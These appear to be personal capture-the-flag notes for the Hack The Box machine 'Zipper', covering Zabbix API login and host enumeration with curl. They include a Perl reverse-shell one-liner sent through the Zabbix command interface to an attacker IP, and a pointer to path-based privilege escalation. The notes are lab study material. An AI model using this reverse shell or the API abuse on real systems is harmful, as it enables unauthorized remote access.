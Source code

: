 ### writeups
* https://0xrick.github.io/hack-the-box/zipper/
* https://0xdf.gitlab.io/2019/02/23/htb-zipper.html#

### Zabbix API
##### POST api_jsonrpc.php
```bash login to get token, id doesn't matter
❯ curl -X POST -H 'Content-type:application/json' -d '{"jsonrpc":"2.0","method":"user.login","params":{"user":"zapper","password":"zapper"},"auth":null,"id":13}' http://$IP/zabbix/api_jsonrpc.php
{"jsonrpc":"2.0","result":"938bc25389fc5d728f00f2557bd053e7","id":13}
```

```bash Get Host Info
❯ curl -X POST -H 'Content-type:application/json' -d '{"jsonrpc":"2.0","method":"host.get","id":13,"auth":"938bc25389fc5d728f00f2557bd053e7","params":{}}' http://$IP/zabbix/api_jsonrpc.php | jq .
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  1638  100  1539  100    99   2590    166 --:--:-- --:--:-- --:--:--  2757
{
  "jsonrpc": "2.0",
  "result": [
    {
      "hostid": "10105", <- This is the one not available
      "available": "0",
      "proxy_hostid": "0",
      "host": "Zabbix",
      "status": "0",
      "disable_until": "0",
      "<snip>":"..."
      "tls_subject": "",
      "tls_psk_identity": "",
      "tls_psk": ""
    },
    {
      "hostid": "10106",
      "available": "1", <- This is the one available
      "proxy_hostid": "0",
      "host": "Zipper",
      "<snip>":"..."
      "tls_psk": ""
    }
  ],
  "id": 13
}
```

### exploit.py
I converted `39937.py` to fit in python3.

##### Payload has to be a quite strick perl socket
Otherwise will disconnect instantly.

```bash payload
[zabbix_cmd]>>: perl -e 'use Socket;$i="10.10.16.5";$p=80;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

### Root by abuse non absolute path Environment variables
* https://github.com/A1vinSmith/OSCP-PWK/wiki/Linux-Privilege-Escalation#missing-part-from-the-above-lab-environment-variables-after-found-an-exploitable-suid-binary